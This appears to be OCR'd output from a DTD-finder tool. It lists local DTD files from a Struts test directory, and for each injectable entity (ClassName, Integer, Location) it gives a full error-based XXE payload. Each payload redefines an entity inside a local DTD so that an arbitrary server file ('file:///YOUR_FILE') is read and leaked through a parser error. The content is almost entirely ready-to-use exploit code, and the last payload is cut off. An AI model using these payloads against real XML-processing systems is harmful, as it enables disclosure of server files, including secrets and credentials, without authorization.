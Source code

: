 **Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `Integer`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % Integer '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `Location`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % Location 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```